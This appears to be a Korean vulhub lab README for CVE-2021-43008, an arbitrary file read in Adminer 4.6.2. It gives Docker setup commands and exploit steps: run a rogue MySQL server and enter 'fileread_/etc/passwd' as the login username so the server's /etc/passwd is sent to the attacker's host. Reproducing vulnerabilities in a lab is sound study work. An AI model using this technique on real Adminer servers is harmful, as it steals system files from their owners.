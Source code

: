 # [Adminer 원격 파일 읽기 (CVE-2021-43008)](https://github.com/vulhub/vulhub/tree/master/adminer/CVE-2021-43008#adminer-remote-arbitrary-file-read-cve-2021-43008)


Adminer는 PHP에서 개발한 데이터 베이스의 콘텐츠를 관리하는 도구 입니다. 기본적으로 MySQL, MariaDB, PostgreSQL, SQLite, MS SQL, Oracle, Elasticsearch, MongoDB을 지원합니다.

Adminer 버전 1.12.0 ~ 4.6.2(버전 4.6.3에서 수정되었음)의 부적절한 액세스 제어로 인해 공격자는 관리자에게 원격 MySQL 데이터베이스에 연결하도록 요청하여 원격 서버에서 임의 파일 읽기를 할 수 있다.

참고자료:

- [https://github.com/p0dalirius/CVE-2021-43008-AdminerRead](https://github.com/p0dalirius/CVE-2021-43008-AdminerRead)
- [http://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability](http://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability)

## [취약한 환경](https://github.com/vulhub/vulhub/tree/master/adminer/CVE-2021-43008#vulnerable-environment)

Adminer 4.6.2로 PHP 서버를 시작하려면 다음 명령을 실행하세요. :

![](1.png)

```
docker compose up -d
```

서버가 시작되면 관리자의 로그인 페이지를 볼 수 있습니다. `http://your-ip:8080`.

## [익스플로잇](https://github.com/vulhub/vulhub/tree/master/adminer/CVE-2021-43008#exploit)

[mysql-fake-server](https://github.com/4ra1n/mysql-fake-server)를 통해 불량 MySQL 서버를 시작하고, 
`fileread_/etc/passwd`를 사용자 이름 입력박스에 입력한다.

```
git clone https://github.com/4ra1n/mysql-fake-server.git
cd mysql-fake-server/
docker build -t fake-mysql-cli .
docker run -p 3306:3306 fake-mysql-cli
```

로그인 버튼을 누르면 mysql-fake-server에 Adminer의 `/etc/passwd` 파일이 저장된다. 

도커에 올린 mysql-fake-server에 bash로 들어가서 `/fake-server-files/pc-time/passwd`의 내용을 확인하면 Adminer의 서버의 `/etc/passwd`의 파일 내용이 들어있는 것을 볼 수 있다.

![](2.png)

![](3.png)
